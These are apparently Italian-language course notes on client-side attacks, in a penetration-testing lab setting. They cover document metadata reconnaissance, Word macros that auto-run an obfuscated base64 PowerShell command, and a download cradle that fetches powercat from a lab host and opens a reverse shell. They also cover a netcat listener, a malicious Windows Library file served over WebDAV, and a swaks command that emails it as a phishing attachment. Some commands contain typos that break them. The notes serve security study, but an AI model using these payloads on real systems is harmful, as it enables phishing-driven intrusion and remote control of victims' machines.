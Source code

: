 ## 11.1.1. Information Gathering

```bash
exiftool -a -u brochure.pdf

gobuster dir -x .pdf -w /usr/share/wordlists/dirb/common.txt -u http://$IP/
```

## 11.1.2. Client Fingerprinting
- https://github.com/laramies/theHarvester
- https://canarytokens.com/
- https://canarytokens.com/generate

## 11.2.3. Leveraging Microsoft Word Macros

- Primo esempio di macro:

```
Sub AutoOpen()

  MyMacro
  
End Sub

Sub Document_Open()

  MyMacro
  
End Sub

Sub MyMacro()

  CreateObject("Wscript.Shell").Run "powershell"
  
End Sub
```

- Secondo esempio di macro:

```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    CreateObject("Wscript.Shell").Run Str
End Sub
```

```bash
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powergat.ps4');powergat -c 192.168.119.2 -p 4444 -e powersbel
```

-  Dopo aver convertito questo comando in base64, lo dividiamo in più chunks tramite questo script:

```bash
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```

Alla fine otteniamo questo:

```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
    ...
        Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
        Str = Str + "A== "

    CreateObject("Wscript.Shell").Run Str
End Sub
```

- Ci mettiamo in ascolto:

```bash
nc -nvlp 4444
```

## 11.3.1. Obtaining Code Execution via Windows Library Files

```bash
pip3 install wsgidav

mkdir /home/kali/webdav

/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

- Creare il file config.Library-ms su windows:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.212</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

-  Poi viene creato uno shortcut contenente un payload per scaricare powercat e avviare una reverse shell.
- Caricato il file config.Library-ms tramite smb:

```bash
cd webdav

smbclient //$IP$/share -c 'put config.Library-ms'
```

## Capstone

```bash
gobuster dir -x .pdf -w /usr/share/wordlists/dirb/common.txt -u http://$IP/

exiftool -a -u info.pdf

sudo swaks -t dave.wizard@supermagicorg.com --from test@supermagicorg.com -ap --attach config.Library-ms --server 192.168.237.199 --body body.txt --header "Subject: Problems" --suppress-data --auth-user test@supermagicorg.com --auth-password test 
```